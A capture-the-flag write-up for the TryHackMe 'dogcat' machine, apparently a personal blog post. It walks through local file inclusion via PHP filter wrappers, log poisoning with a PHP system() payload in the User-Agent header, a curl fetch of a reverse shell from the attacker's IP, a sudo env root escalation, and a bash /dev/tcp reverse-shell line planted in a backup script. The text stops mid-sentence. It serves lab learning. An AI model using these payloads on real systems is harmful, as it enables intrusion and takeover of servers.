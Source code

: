 ```yaml
---
date: 2020-05-17
layout: post
title: "dogcat"
subtitle:
description: Medium Machine from tryhackme
image: /writeup/assets/img/dogcat/dogcat.png
optimized_image:
category: Tryhackme
tags: tryhackme,lfi
author:
paginate: false
---
```

<a href="https://tryhackme.com/room/dogcat">Link</a> to the machine on Tryhackme.

Starting with the nmap scan.
```bash
nmap -T4 -p- -A 10.10.110.141
```
```bash
Starting Nmap 7.70 ( https://nmap.org ) at 2020-04-18 22:13 IST
Nmap scan report for 10.10.184.233
Host is up (0.24s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 24:31:19:2a:b1:97:1a:04:4e:2c:36:ac:84:0a:75:87 (RSA)
|   256 21:3d:46:18:93:aa:f9:e7:c9:b5:4c:0f:16:0b:71:e1 (ECDSA)
|_  256 c1:fb:7d:73:2b:57:4a:8b:dc:d7:6f:49:bb:3b:d0:20 (ED25519)
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
|_http-server-header: Apache/2.4.38 (Debian)
|_http-title: dogcat
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 3.1 (95%), Linux 3.2 (95%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (94%), ASUS RT-N56U WAP (Linux 3.4) (93%), Linux 3.16 (93%), Linux 2.6.32 (92%), Linux 2.6.39 - 3.2 (92%), Linux 3.1 - 3.2 (92%), Linux 3.2 - 4.9 (92%), Linux 3.7 - 3.10 (92%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
Not much of ports are open.Main target now port 80.

Running gobuster
```bash
gobuster dir -u http://10.10.110.141 -w wordlist
/index.php (Status: 200)
/cat.php (Status: 200)
/flag.php (Status: 200)
/cats (Status: 301)
/server-status (Status: 403)
/dog.php (Status: 200)
/dogs (Status: 301)
````
Requesting flag.php gives a blank page.
Clicking on any of the two buttons provided on home page of the website a image is accessed using the following url
```url
http://10.10.110.141/?view=dog[or cat] 
```
Tried local file inclusion through the view parameter.
```url
http://10.10.110.141/?view=../../../../../../../../../../etc/passwd
```

This failed as the server is attaching a .php at the end of the string provided in view.Moreover it also checks for dog or cat word in the string.

Used PHP Wrappers to get the code in flag.php.
```url
http://10.10.110.141/?view=php://filter/convert.base64-encode|read=dog/resource=flag
```
Here the filter php wrapper is used as we can use it to chain multiple filters.
The wrapper above asks the server to get flag.php(.php is appended automatically) convert it to base64(beacuse if it will give the code directly then code will get executed and we will get same page as requesting flag.php).Read filter does nothing here except letting dog or cat word in the string.

Accessing the above url we get a base64 encoded string which on decryption gives the code of flag.php
![placeholder](/writeup/assets/img/dogcat/flag1.php "flag1")

Through the same method index.php can be read.This tells that appending of .php can be stopped by using a *ext* parameter in url.
```php
#index.php
<!DOCTYPE HTML>
<html>

<head>
    <title>dogcat</title>
    <link rel="stylesheet" type="text/css" href="/style.css">
</head>

<body>
    <h1>dogcat</h1>
    <i>a gallery of various dogs or cats</i>

    <div>
        <h2>What would you like to see?</h2>
        <a href="/?view=dog"><button id="dog">A dog</button></a> <a href="/?view=cat"><button id="cat">A cat</button></a><br>
        <?php
            function containsStr($str, $substr) {
                return strpos($str, $substr) !== false;
            }
            $ext = isset($_GET["ext"]) ? $_GET["ext"] : '.php';
            if(isset($_GET['view'])) {
                if(containsStr($_GET['view'], 'dog') || containsStr($_GET['view'], 'cat')) {
                    echo 'Here you go!';
                    include $_GET['view'] . $ext;
                } else {
                    echo 'Sorry, only dogs or cats are allowed.';
                }
            }
        ?>
    </div>
</body>

</html>
```

Now trying to get rce through log poisoning.
First we access any file on the server with User-Agent Header containing our malicious code.
This can be done via burpsuite or curl.
Using the following in user agent
```bash
**Payload="<?PHP echo system($_GET['y'])?>"**
```
![placeholder](/writeup/assets/img/dogcat/burp.png "burp")

Now accessing the access.log file on the system which logs all the files being requested with the user-agent which is accessing.
So this way when access.log is fetched by the server,the php code feeded in through user-agent gets executed.

So now any code can be executed thorough the y parameter in url

```url
http://10.10.110.141/view=cats/../../../../../../../../../../var/log/apache2/access.log&ext=&y=[command] 
```

If **whoami** is passed in y then following response is recieved
![placeholder](/writeup/assets/img/dogcat/rce.png "rce")

Better shell can be acquired by uploading any php reverse shell thorugh the y parameter.

Since many commands like wget python are not present on the machine;curl can be used to upload the reverse shell.
```url
http://10.10.110.141/?view=dog/../../../../../../../../../../../../../var/log/apache2/access.log&ext=&y=curl%20http://10.9.12.192/phpshell.php%20-o%20shell.php
```
The shell used here is pentestmonkney reverse shell.

Now accessing the shell.php gives a reverse shell.
![placeholder](/writeup/assets/img/dogcat/shell.png "shell")

Second flag is present in /var/www.

**sudo -l** shows
![placeholder](/writeup/assets/img/dogcat/sudo.png "sudo")

Time for GTFObins.
Got the command from GTFObins that will give a root shell through env command.
**sudo env /bin/sh**

Got root shell and the third flag(Inside /root directory).

Running the hostname command gives a non-meaningfull string which tells that we may be still inside a container rather that the machine itself.

Enumerating through the machine , got a backup.sh file inside /opt/backup. This seems to be a script main host machine is using to create bacckup.So maybe it is runnning at some interval of time.
Edited the script to get a reverse shell.
Put a one liner reverse shell in the script
```bash
echo "#!/bin/bash" > backup.sh
echo "bash -c 'bash -i >& /dev/tcp/10.9.12.192/7777 0>&1'" >> backup.sh
```

This gave a shell on the host machine.
![placeholder](/writeup/assets/img/dogcat/host.png "host")
Found fourth flag(Inside /root/)


Got the 
